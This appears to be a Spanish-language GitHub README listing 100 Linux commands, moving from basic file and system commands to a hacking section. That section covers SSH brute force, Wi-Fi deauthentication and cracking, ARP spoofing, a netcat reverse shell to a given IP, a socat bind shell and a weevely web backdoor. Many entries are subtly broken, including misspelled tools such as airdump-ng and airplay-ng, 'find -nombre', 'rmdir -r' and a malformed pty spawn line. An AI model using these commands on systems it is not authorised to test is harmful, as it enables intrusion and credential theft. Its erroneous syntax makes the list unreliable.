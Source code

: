 # C-digo-b-sico
01. Código de comandos básicos para Linux:
   
1. pwd - Directorio actual
2. ls - Lista los archivos del directorio
3. cd - Cambia de directorio
4. mkdir <carpeta> - Crea una carpeta
5. rm <archivo> - Borra un archivo
6. rmdir -r <carpeta> - Borra una carpeta
7. cp <archivo> <destino> - Copia archivos
8. mv <archivo> <destino> - mueve/cambia de nombre archivos
9. touch <archivo> - Crea un archivo
10. cat <archivo> - Muestra el contenido de un archivo
11. nano <archivo> - Editor de archivo Nano
12. vim <archivo> - Editor de archivo Vim
13. find / -nombre <archivo> - Busca un archivo
14. grep "texto" <archivo> - Busca un texto en un archivo 
15. history - Muestra la historia de comandos

02. Comandos de información del sistema:

16. uname -a - Muestra información del sistema
17. whoami - Muestra el usuario actual
18. id - Muestra el ID del usuario y del grupo
19. uptime - Muestra la cantidad de tiempo del sistema está operativo
20. df -h - Muestra el uso del disco
21. du -sh <carpeta> - Muestra el tamaño de una carpeta
22. top - Muestra procesos activos
23. ps aux - Lista los procesos que se están ejecutando
24. kill <proceso> - Termina un proceso
25. htop - Gestion de procesos interactivos

03. Uso de comandos de gestión:

26. adduser <usuario> - Añade un nuevo usuario
27. deluser <usuario> - Elimina un usuario
28. passwd <usuario> - Cambia la contraseña
29. usermod -aG sudo <usuario> - Da acceso de superusuario
30. groups <usuario> -Muestra los grupos del usuario
31. chmod 777 <archivo> - Cambia los permisos del archivo
32. chown usuario:grupo <archivo> - Cambia el dueño del archivo

04. Comandos en redes:

33. ifconfig - Muestra la interfaz de la red
34. ip a - Muestra la dirección IP
35. iwconfig - Muestra la interfaz wifi
36. ping <IP> - Test de conexión IP
37. netstat -tulnp - Muestra los puertos abiertos
38. nmap <IP> - Escanea los puertos abierto del objetivo
39. traceroute <IP> - Traza una ruta a un host
40. curl <URL> - Busca datos de una URL
41. wget <URL> - Descarga un archivo
42. dig <dominio> - Obtiene infomacion DNS
43. nslookup <dominio> - Realiza una busqueda de DNS

05. Comandos de Hacking & Test de Penetración:

44. msfconsole - Inicia Mestasploit
45. msfvenom - Genera cargas útiles (payloads)
46. searchsploit <exploit> - Busca exploits
47. sqlmap -u <URL> --dbs - Test de SQL injection
48. hydra -l user -P pass.txt <IP> shh - SSH de fuerza bruta
49. john --wordlist=rockyou.txt hash.txt - Crackea hashes
50. airmon-ng start wlan0 - Permite modo monitorización
51. airdump-ng wlan0mon - Captura paquetes wifi
52. airplay-ng -0 10 -a <BSSID> wlan0mon - Desautentica clientes
53. aircrack-ng -w rockyou.txt -b <BSSID> <archivo_capturado> - Crackea contraseña WIFI
54. hashcat -m 2500 hash.txt rockyou.txt - Cracka hashes usando GPU
55. ettercap -T -q -i eth0 - Realiza una suplantación de ARP
56. driftnet -i eth0 - Captura imágenes del trafico de red
57. tcpdump -i eth0 - Captura paquetes de red
58. tshark -i eth0 - Analisis del trafico de red
59. nikto -h <URL> - Escanea nulnerabilidades de servidores web
60. gobuster dir -u <URL> -w /urs/share/wordlists/dirb/common.txt - Fuerza bruta de la carpeta
61. wpscan --url <URL> - Escanea vulnerabilidades en WordPress

06. Escalada de Privilegios & Post-Explotaciones:

62. sudo -l - Muestr los privilegios de superusuario
63. sudo su - Cambia a usuario root
64. python -c 'import pty:pty.spawn("/bin/bash/")' - Habilita el shell/terminal
65. nc -lvnp <puerto> - Empieza un Netcat de escucha
66. nc <IP> <puerto> -e /bin/bash - Shell inverso
67. meterpreter> getuid - Muestra el usuario actual en Meterpreter
68. meterpreter> getsystem - Intenta escalar privilegios
69. meterpreter> upload / download <archivo> - Transfiere archivos
70. merterpreter> shell - Obterner shell/terminal del sistema
71. linux-exploit-suggester - Sugiere exploits para escalada de privilegios

07. Cifrado de Archivos & Datos:

72. gpg -c <archivo> - Cifra un archivo
73. gpg -d <archivo.gpg> - Descifra un archivo
74. openssl enc -aes-256-cbc -salt -in <archivo> -out <archivo.enc> Cifra usando OpenSSL
75. openssl enc -d -aes-256-cbc -salt -in <archivo.enc> -out <archivo> - Descifra el archivo

08. Forense & Esteganografía:

76. string <archivo> - Extrae los strigns de un archivo
77. binwalk <archivo> - Analiza binarios
78. foremost -i <imagen> - Extrae archivos de una imagen
79. exiftool <archivo> - Muestra los metadatos de un archivo
80. stegseek <archivo steg/stegfile> -Detecta datos ocultos en una imagen

09. Cracking de Contraseñas & Hashes:

81. hashid <hash> - Identifica el tipo de hash
82. hydra -L users.txt -P passwords.txt ssh://<IP> - Fuerza bruta SSH
83. john hash.txt --wordlists=rockyou.txt - Crackea hashes de contraseñas

10. Tests de Aplicaciones Web:

84. dir <URL> - Enumeracion de carpetas
85. wfuzz -c -z file,wordlists.txt --hc 404 <URL>/ FUZZ - Web fuzzing
86. xsssniper -u <URL> - Test para XSS
87. commix --url <URL> - Test de inyección de comandos
88. burpsuite - Test con Burp Suite

# Varios:

89. crunch 8 8 abcdefghijklmnopqrstuvwxyz - Genera una wordlist
90. proxychains nmap -sT -Pn <IP> - Usa proxychains con Nmap
91. tor - Abre navegador Tor
92. mitmproxy - Empieza un proxy de man-in-the-middle
93. setoolkit - Comienza una Ingenieria Social con Toolkit
94. cewl -w words.txt -d 5 <URL> - Genera una lista de palabras personalizadas
95. weevely generate password backdoor.php - Crea una backdoor en una web
96. socat TCP-LISTEN:4444,fork EXEC:/bin/bash - Une el shell
97. whois <domain> - Da información sobre el dominio
98. theHarvester -d <domain> -l 100 -b google -Recolecta información sobre email y subdominios
99. fcrackzip -u -D -p rockyou.txt <archivo.zip> - Crackea una contraseña de un archivo .zip
100. dnscan -d <dominio> - Muestra subdominios
